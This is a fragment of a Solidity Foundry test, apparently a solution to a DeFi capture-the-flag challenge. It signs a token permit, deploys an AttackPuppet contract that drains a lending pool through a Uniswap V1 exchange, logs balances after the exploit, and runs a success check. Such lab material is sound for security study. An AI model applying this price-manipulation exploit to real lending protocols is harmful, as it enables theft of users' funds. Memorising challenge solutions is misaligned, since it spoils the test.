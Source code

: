 ```solidity

        address contractAddress = vm.computeCreateAddress(player, 0);
        uint256 nonce = token.nonces(player);
        uint256 deadline = block.timestamp + 1;

        bytes32 permitHash = keccak256(
            abi.encode(
                keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)"),
                player,
                contractAddress,
                1000 ether,
                nonce,
                deadline
            )
        );

        bytes32 digest = keccak256(abi.encodePacked("\x19\x01", token.DOMAIN_SEPARATOR(), permitHash));

        // Sign the digest
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPrivateKey, digest);

        new AttackPuppet{value: 20 ether}(
            address(uniswapV1Exchange), address(lendingPool), address(token), 1000 ether, deadline, v, r, s, recovery
        );

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the lendingPool contract", token.balanceOf(address(lendingPool)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the recovery address", token.balanceOf(recovery), token.decimals()
        );
    }

    // Utility function to calculate Uniswap prices
    function _calculateTokenToEthInputPrice(uint256 tokensSold, uint256 tokensInReserve, uint256 etherInReserve)
        private
        pure
        returns (uint256)
    {
        return (tokensSold * 997 * etherInReserve) / (tokensInReserve * 1000 + tokensSold * 997);
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Player executed a single transaction
        assertEq(vm.getNonce(player), 1, "Player executed more than one tx");

        // All tokens of the lending pool were deposited into the recovery account
        assertEq(token.balanceOf(address(lendingPool)), 0, "Pool still has tokens");
        assertGe(token.balanceOf(recovery), POOL_INITIAL_TOKEN_BALANCE, "Not enough tokens in recovery account");
    }
}
```
